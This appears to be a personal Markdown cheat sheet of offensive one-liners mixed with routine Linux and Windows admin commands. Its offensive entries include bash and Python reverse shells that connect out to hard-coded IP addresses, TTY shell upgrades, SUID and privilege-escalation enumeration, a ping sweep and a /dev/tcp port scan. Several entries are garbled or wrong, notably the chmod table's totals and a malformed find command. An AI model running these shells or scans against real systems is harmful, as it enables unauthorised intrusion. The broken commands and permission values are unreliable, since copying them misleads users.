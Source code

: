 ## Table of Contents

- [Reverse Shells](#reverse\shells)
  - [Upgrade shell](#Upgrade\shell)
- [Upgrade shell using python tty](#upgrade\shell\using\python\tty)
- [python/pypy stuff](#python/pypy\stuff)
    - [Python Reverse shell One liner](#Python\Reverse\shell\One\liner)
        - [**Chmod Numbers**](#**Chmod\Numbers**)
- [Linux Enumeration for SUID Binaries](#linux\enumeration\for\suid\binaries)
  - [Start/Stop Docker Service](#Start/Stop\Docker\Service)

 ### One liners
# Reverse Shells
```
bash -i >& /dev/tcp/10.10.16.3/4242 0>&1
```
#reverseshell #bash
## Upgrade shell
 ```bash
#Upgrade shell
script /dev/null -c bash
[CTRL + Z]$ ^Z
home@shell$stty raw -echo;rg

# Upgrade shell using python tty
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
#upgradeshell
# python/pypy stuff
### #Python Reverse shell One liner
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.4",6969));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")\`
```
#pythonshell #python 
**python shell upgrade**
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'\`
```

**Find all binary files that are own/Ran under a different user with execute permissions:**
```bash
find / -type[f,b,d] ! -user $(whoami) -perm /u=x\
```
#finddifferentuserexecuteperms
**Kill OpenVPN**
```bash
sudo kill -9 $(ps aux | grep openvpn | grep -v grep | awk '{print $2}')
```
#openvpn
**Retrieve all users on a windows machine using PowerShell**
```powershell
Get-WmiObject -Class Win32_UserAccount -Filter "LocalAccount=True"
```
#powershell #getusers #windows
**Fully update Linux/Kali Linux machiness**
```bash

sudo apt-get update && sudo apt upgrade -y && sudo apt dist-upgrade && sudo apt autoremove
```
#upgrade #linux 
**Windows PowerShell command to retrieve info about a file, below gets size (in bytes) of a .exe**
```powershell
$file = Get-Item "path_to_your_file.exe"
$file.Length
```
#windows #fileinfo #Get-Item #Get-ItemLength
**Download an entire website**
```shell
wget --random-wait -r -p -e robots=off -U mozilla http://example.com
```
#download #website

**URL Decoding** 
```shell
 -e's/%\([0-9A-F][0-9A-F]\)/\\\\\x\1/g' |  [xargs] echo -e
```

**How can I format USB drive in CMD on windows?**
You can press Windows + R, type cmd, and press Ctrl + Shift + Enter to run Command Prompt as administrator. Then type the following commands and press Enter after each command.
- `diskpart`
- `list disk`
- `select disk *` (replace * with the exact disk number of USB)
- `clean`
- `format fs=fat32 quick` (replace fat32 with ntfs if you want to format USB to ntfs format)
- `assign letter=*` (replace * with preferred drive letter)
- `exit`

##### **Chmod Numbers**
Number | Permissions | Totals
-------------------------------------------------
```bash
0 | --- | 0+0+0 = 000
1 | --x | 0+0+1 = 001
2 | -w- | 0+2+0 = 020
3 | -wx | 0+2+1 = 021
4 | r-- | 4+0+0 = 400
5 | r-x | 4+0+1 = 555
6 | rw- | 4+2+0 = 666
7 | rwx | 4+2+1 = 777 
```
#file permissions
**Ping Sweep Example**
```shell
for i in {1..254}; do (ping -c 1 172.19.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```
#pingsweep

```shell
root@3a453ab39d3d:~ for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null           
22 open
80 open
```

# Linux Enumeration for SUID Binaries
```shell
find / -perm -4000 -exec ls -ld {} \; 2>/dev/null
```
#suidbinaries #linuxenum #privesc

## Start/Stop Docker Service
```shell
sudo systemctl stop docker
Activate with: docker.socket
```
#docker










